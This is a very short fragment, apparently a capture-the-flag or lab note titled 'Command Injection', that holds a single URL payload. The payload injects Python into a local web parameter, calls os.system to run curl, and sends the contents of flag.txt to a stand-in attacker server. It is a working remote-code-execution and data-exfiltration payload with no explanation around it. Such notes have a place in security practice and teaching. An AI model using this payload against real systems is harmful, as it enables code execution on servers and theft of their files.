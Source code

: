 # Command Injection

```
http://127.0.0.1/old?inject=__import__(%27os%27).system(%27curl%20http://ATTACKER_SERVER/$(cat%20flag.txt)%27)
```

